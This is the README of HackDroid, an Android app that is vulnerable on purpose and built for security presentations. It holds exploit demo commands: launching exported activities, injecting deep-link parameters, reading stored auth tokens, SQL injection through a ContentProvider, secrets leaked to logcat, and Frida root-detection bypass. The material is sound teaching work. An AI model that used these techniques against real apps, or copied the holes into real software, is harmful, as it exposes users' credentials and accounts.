







# HackDroid 🔓

**An intentionally vulnerable Android app for security presentations.**

> Built to demonstrate real Android vulnerabilities live on stage.
> Every screen has a "How to Hack" and "How to Protect" section.

## ⚠️ WARNING

This app is **intentionally insecure**. Never install on a production device or
use with real credentials. For educational/demo purposes ONLY.

---

## Screenshots

<p align="center">
  
</p>

<p align="center">
  
  &nbsp;
  
  &nbsp;
  
  &nbsp;
  
  &nbsp;
  
  &nbsp;
  
</p>

---

## What's Inside

| # | Vulnerability | Severity | Live Demo |
|---|---|---|---|
| 1 | Exported Components | 🔴 CRITICAL | `adb shell am start -n com.hackdroid.demo/.vulns.AdminActivity` |
| 2 | Deep Links | 🟠 HIGH | `adb shell am start -a VIEW -d "hackdroid://transfer?amount=9999&to=attacker"` |
| 3 | WebViews / JS Bridge | 🟠 HIGH | Load `webview_demo.html` in the WebView demo |
| 4 | Insecure Storage | 🟡 MEDIUM | `adb shell run-as com.hackdroid.demo cat /data/data/com.hackdroid.demo/shared_prefs/auth_prefs.xml` |
| 5 | SQL Injection | 🟡 MEDIUM | `adb shell content query --uri content://com.hackdroid.demo.provider/users --where "1=1"` |
| 6 | Reverse Engineering | ⚪ LOW | `jadx -d out/ app.apk` |
| 7 | Broadcast Receivers | ⚪ LOW | `adb shell am broadcast -a com.hackdroid.RESET_AUTH` |

---

## Setup

### Prerequisites

- Android Studio Hedgehog or newer
- Android device or emulator (rooted recommended for full demo)
- ADB installed and on PATH
- Java 17+

### Install & Run

```bash
git clone https://github.com/jacksonfdam/hackdroid
cd hackdroid
./gradlew assembleDebug
adb install app/build/outputs/apk/debug/app-debug.apk
```

### Enable ADB on device

1. Settings → About Phone → tap "Build Number" 7 times
2. Settings → Developer Options → Enable USB Debugging
3. `adb devices` — confirm device listed

---

## Exploit Demos

### Demo 1 — Bypass Exported Activity

```bash
adb shell am start -n com.hackdroid.demo/.vulns.AdminActivity
```

**Expected:** Admin panel opens without any login screen.

### Demo 2 — Deep Link Injection

```bash
adb shell am start -a android.intent.action.VIEW \
  -d "hackdroid://transfer?amount=9999&to=attacker"
```

**Expected:** Transfer screen shows attacker-controlled values with no validation.

### Demo 3 — Read Insecure Storage

```bash
# No root required — works on any debug APK
adb shell run-as com.hackdroid.demo \
  cat /data/data/com.hackdroid.demo/shared_prefs/auth_prefs.xml

# Alternative: copy to sdcard, then pull
adb shell run-as com.hackdroid.demo \
  cp /data/data/com.hackdroid.demo/shared_prefs/auth_prefs.xml /sdcard/auth_prefs.xml
adb pull /sdcard/auth_prefs.xml && cat auth_prefs.xml
```

**Expected:** Auth token, email, and session ID visible in plain XML.

> **Why `run-as` instead of `adb pull`?** Direct `adb pull` of `/data/data/` requires root. `run-as` works on any debug build without root — making this a real-world attack, not just a rooted-device demo.

### Demo 4 — SQL Injection via ContentProvider

```bash
# Simplest — no shell-quoting issues
adb shell content query \
  --uri content://com.hackdroid.demo.provider/users \
  --where "1=1"

# Classic tautology payload (inner double-quotes must be escaped for the remote shell)
adb shell content query \
  --uri content://com.hackdroid.demo.provider/users \
  --where "\"name='x' OR '1'='1'\""
```

**Expected:** All user rows returned including plaintext tokens.

> **Shell quoting note:** `adb shell` passes arguments to the device shell, so `--where` values containing spaces and single quotes need an extra layer of quoting. `1=1` is the easiest demo payload — still a valid SQL injection tautology.

### Demo 5 — Exported Broadcast Receiver

```bash
adb shell am broadcast -a com.hackdroid.RESET_AUTH
```

**Expected:** App shows Toast "⚠ Auth state cleared via broadcast!" and all SharedPreferences are wiped.

### Demo 6 — Exported Service (Logcat leak)

```bash
adb shell am startservice -n com.hackdroid.demo/.vulns.LeakyService
adb logcat | grep HackDroid_LEAK
```

**Expected:** Session token, email, and API key printed to Logcat.

### Demo 7 — WebView JS Bridge

Open **Vulns → WebViews / JS Bridge → Run Demo Exploit** → use the buttons in the WebView page.

### Demo 8 — Frida Root Bypass

**Rooted device / emulator:**
```bash
frida -U -f com.hackdroid.demo \
  -l app/src/main/assets/frida_scripts/bypass_root_detection.js
```

**Non-rooted device (Gadget embedded — see `jniLibs/README.md`):**
```bash
# 1. Build & install
./gradlew assembleDebug && adb install -r app/build/outputs/apk/debug/app-debug.apk

# 2. Launch app — screen freezes (Gadget waiting on port 27042)
adb shell am start -n com.hackdroid.demo/.MainActivity

# 3. Forward Gadget TCP port to localhost
adb forward tcp:27042 tcp:27042

# 4. Attach Frida over TCP (no root, no frida-server needed)
frida -H 127.0.0.1:27042 Gadget \
  -l app/src/main/assets/frida_scripts/bypass_root_detection.js
```

**Non-rooted device (no source changes, one-shot):**
```bash
pip install objection
objection patchapk -s app/build/outputs/apk/debug/app-debug.apk
adb uninstall com.hackdroid.demo && adb install app.objection.apk
# Launch app, forward port, then attach:
adb forward tcp:27042 tcp:27042
frida -H 127.0.0.1:27042 -l app/src/main/assets/frida_scripts/bypass_root_detection.js
```

**Expected:** `[HackDroid] ✓ Root detection bypassed — all checks return false`

---

## Tools Used

| Tool | Purpose | Install |
|---|---|---|
| ADB | Device communication | Android Platform Tools |
| Frida | Runtime hooks | `pip install frida-tools` |
| JADX | APK decompiler | `brew install jadx` |
| Burp Suite | Traffic intercept | portswigger.net |
| MobSF | Auto scanner | `docker run -it opensecurity/mobile-security-framework-mobsf` |

---

## Project Structure

```
app/src/main/
├── java/com/hackdroid/demo/
│   ├── MainActivity.kt
│   ├── data/
│   │   └── VulnerabilityData.kt
│   ├── navigation/
│   │   └── AppNavigation.kt
│   ├── security/
│   │   └── RootChecker.kt          ← Hooked by Frida demo
│   ├── ui/
│   │   ├── theme/
│   │   │   ├── Color.kt
│   │   │   ├── Type.kt
│   │   │   └── Theme.kt
│   │   └── screens/
│   │       ├── HomeScreen.kt
│   │       ├── VulnListScreen.kt
│   │       ├── VulnDetailScreen.kt
│   │       ├── ExploitLabScreen.kt
│   │       ├── DefenseGuideScreen.kt
│   │       ├── ToolkitScreen.kt
│   │       └── DemoScreens.kt
│   ├── viewmodel/
│   │   └── HackDroidViewModel.kt
│   └── vulns/
│       ├── AdminActivity.kt         ← CRITICAL: exported, no auth
│       ├── DeepLinkActivity.kt      ← HIGH: unvalidated params
│       ├── LeakyService.kt          ← HIGH: logs secrets to Logcat
│       ├── AuthResetReceiver.kt     ← LOW: exported broadcast
│       ├── VulnerableContentProvider.kt ← MEDIUM: SQL injection
│       ├── InsecureStorageActivity.kt   ← MEDIUM: plain SharedPrefs
│       └── WebViewDemoActivity.kt       ← HIGH: JS bridge exploit
├── assets/
│   ├── webview_demo.html
│   └── frida_scripts/
│       ├── bypass_root_detection.js
│       ├── bypass_ssl_pinning.js
│       └── dump_strings.js
└── AndroidManifest.xml
```

---

## Presenter Notes

Each screen in the app maps directly to a slide in your presentation:

| Screen | Vuln | Live Demo Command |
|---|---|---|
| Exploit Lab → Bypass Exported Activity | Exported Components | Demo 1 |
| Exploit Lab → Deep Link Injection | Deep Links | Demo 2 |
| Exploit Lab → Read SharedPreferences | Insecure Storage | Demo 3 |
| Vuln Detail → SQL Injection | SQL Injection | Demo 4 |
| Broadcast Receivers (ADB) | Broadcast Receivers | Demo 5 |
| WebView Demo | WebViews | Demo 7 |
| Exploit Lab → Frida Hook | Reverse Engineering | Demo 8 |

---

## License

MIT — for educational use only. The authors are not responsible for misuse.
